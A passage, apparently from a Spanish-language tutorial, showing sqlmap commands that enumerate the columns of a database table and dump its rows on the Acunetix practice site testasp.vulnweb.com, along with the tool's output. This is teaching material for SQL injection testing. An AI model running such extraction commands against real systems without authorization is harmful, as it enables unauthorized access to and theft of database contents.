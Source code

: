     ```
    
- Obtener columnas de una tabla de una base de datos
    ```bash
    sqlmap -u http://testasp.vulnweb.com/showthread.asp?id=1 -D <base_datos> -T <tabla> --columns
    sqlmap -u http://testasp.vulnweb.com/showthread.asp?id=1 -D acuforum -T forums --columns

    # Output
    [11:10:24] [INFO] retrieved: timestamp
    Database: acuforum
    Table: forums
    [4 columns]
    +----------------+-----------+
    | Column         | Type      |
    +----------------+-----------+
    | name           | nvarchar  |
    | descr          | nvarchar  |
    | id             | int       |
    | SSMA_TimeStamp | timestamp |
    +----------------+-----------+
    ```

- Acceder a toda la información en una tabla específica.
    ```bash
    # donde el parámetro --dump recupera todos los datos de la tabla forums
    sqlmap -u http://testasp.vulnweb.com/showthread.asp?id=1 -D acuforum -T forums --dump   

    # Output
    Database: acuforum
    Table: forums
    [3 entries]
    +----+------------------------------------------------+------------------------------------+----------------+
    | id | descr                                          | name                               | SSMA_TimeStamp |
    +----+------------------------------------------------+------------------------------------+----------------+
    | 0  | Talk about Acunetix Web Vulnerablity Scanner   | Acunetix Web Vulnerability Scanner | <blank>        |
    | 1  | What weather is in your town right now         | Weather                            | <blank>        |
    | 2  | Anything crossing your mind can be posted here | Miscellaneous                      | <blank>        |
    +----+------------------------------------------------+------------------------------------+----------------+
